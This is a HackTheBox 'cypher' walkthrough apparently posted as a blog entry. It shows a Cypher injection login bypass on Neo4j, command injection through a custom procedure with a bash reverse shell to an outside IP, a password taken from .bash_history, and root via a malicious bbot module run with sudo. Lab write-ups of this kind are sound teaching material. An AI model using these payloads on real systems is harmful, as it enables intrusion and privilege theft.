 ```yaml
---
layout: post
title: HTB - cypher
date: 2025-07-25 17:18 -0400
---
```


| {{ 'cypher' | machine_img }} | Medium linux box. Starts with a cypher injection on neo4j. Then we escalete using a custom db procedure. After that there is a password leak on `~/.bash_history`. Ending by abusing a feature from a bug bounty tool to get to root. |

## nmap
shows just 2 ports:

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-03 10:05 -04
Nmap scan report for 10.10.11.57
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 be68db828e6332455446b7087b3b52b0 (ECDSA)
|_  256 e55b34f5544393f87eb6694cacd63d23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cypher.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## subdomain bruteforce
no other subdomains found:

```bash
ffuf -u http://$(cat ip.txt)/ -H 'Host: FUZZ.cypher.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 154

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.57/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.cypher.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: all
 :: Filter           : Response size: 154
________________________________________________

:: Progress: [5893/5893] :: Job [1/1] :: 100 req/sec :: Duration: [0:00:59] :: Errors: 0 ::
----------------------------------------------------------------------------------------------------------------
```

## 404 page is from nginx
![cypher1](/assets/img/cypher1.png)

## cypher.htb - main website - port 80
It's an attack surface management platform.
The only features are a login page and some description for the platform.

![cypher3](/assets/img/cypher3.png)
![cypher5](/assets/img/cypher5.png)
![cypher4](/assets/img/cypher4.png)

There is an injection on the login page.
![cypher6](/assets/img/cypher6.png)

Looking at the error shows that it is using neo4j. Neo4j is a graph database, it is also used by bloodhound. This is the query being used:

`"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = '<injection point>' return h.value as hash"`

The first thing that comes to mind is to try and leak the password hash and crack it.
Leaked the hash but it doesn't crack:

`9f54ca4c130be6d529a56dee59dc2b2090e43acf`

We actually need to return a hash that we know the value of:
```json
{
    "username": "' OR 1=1 return '7a8493ebf7f3a5d09388516a0e063a133590c0c5' as hash;//",
    "password": "graphasm"
}
```

Interesting feature, it just runs every query and prints the output:
![cypher8](/assets/img/cypher8.png)

Database version, no known cves:
```json
[{
    "name": "Neo4j Kernel",
    "versions": ["5.24.1"],
    "edition": "community"
}]
```

Custom procedure stands out after doing some recon on the db:
```json
...
{
    "name": "custom.getUrlStatusCode",
    "description": "Returns the HTTP status code for the given URL as a string",
    "mode": "READ",
    "worksOnSystem": false
},
...
```

It has a full read ssrf with:
![cypher9](/assets/img/cypher9.png)

But lfi doesn't work:
![cypher10](/assets/img/cypher10.png)

The procedure is actually vulnerable to command injection:

`call custom.getUrlStatusCode("; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.37/4444 0>&1'")`

That gives us the `neo4j` user.

## neo4j
Users with a shell:
```bash
neo4j@cypher:~$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
graphasm:x:1000:1000:graphasm:/home/graphasm:/bin/bash
neo4j:x:110:111:neo4j,,,:/var/lib/neo4j:/bin/bash
```

Password leaked in .bash_history
```bash
neo4j@cypher:~$ ls -la
total 52
drwxr-xr-x 11 neo4j adm   4096 Feb 17 16:39 .
drwxr-xr-x 50 root  root  4096 Feb 17 16:48 ..
-rw-r--r--  1 neo4j neo4j   63 Oct  8  2024 .bash_history
drwxrwxr-x  3 neo4j adm   4096 Oct  8  2024 .cache
drwxr-xr-x  2 neo4j adm   4096 Aug 16  2024 certificates
drwxr-xr-x  6 neo4j adm   4096 Oct  8  2024 data
drwxr-xr-x  2 neo4j adm   4096 Aug 16  2024 import
drwxr-xr-x  2 neo4j adm   4096 Feb 17 16:24 labs
drwxr-xr-x  2 neo4j adm   4096 Aug 16  2024 licenses
-rw-r--r--  1 neo4j adm     52 Oct  2  2024 packaging_info
drwxr-xr-x  2 neo4j adm   4096 Feb 17 16:24 plugins
drwxr-xr-x  2 neo4j adm   4096 Feb 17 16:24 products
drwxr-xr-x  2 neo4j adm   4096 Jul 22 14:43 run
lrwxrwxrwx  1 neo4j adm      9 Oct  8  2024 .viminfo -> /dev/null
neo4j@cypher:~$ cat .bash_history
neo4j-admin dbms set-initial-password cU4btyib.20xtCMCXkBmerhK
```

Works for the `graphasm` user.

## graphasm
```bash
neo4j@cypher:~$ su - graphasm
Password:
graphasm@cypher:/tmp/tmp.LwLeWWmVnY$ cat ~/user.txt
b36e2***************************
```

`graphasm` can run `bbot` as root.
```bash
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

[bbot](https://github.com/blacklanternsecurity/bbot) is a recon tool that integrates a lot of different ones. It is used for recon and bug bounties.


Some of the tools it integrates, like `ffuf`, have a command execution feature:
```bash
# creates the file "a" with content 123
ffuf -u http://example.com/FUZZ -input-cmd "echo 123 > a"
```

I couldn't find any way to escalate through that though.

You can add new custom modules with `bbot -p`. And those modules can execute arbitrary python code. So we just take the original `defaults.yml` change `module_dirs: []` to the path of a new module and do something like:
```python
class A:
    pass

class attack(A):
    flags = []
    watched_events = []
    produced_events = []
    meta = {}

    def __init__(self, a):
        pass

    def _setup(self):
        import subprocess
        subprocess.run("cat /root/root.txt > /tmp/123", shell=True)
        return True
```

```bash
graphasm@cypher:/tmp/tmp.LwLeWWmVnY$ sudo bbot -p ./defaults.yml -m attack -d --no-deps
graphasm@cypher:/tmp/tmp.LwLeWWmVnY$ cat /tmp/123
4a2ecff1330fa5e3932f430c0b8ed9f3
```
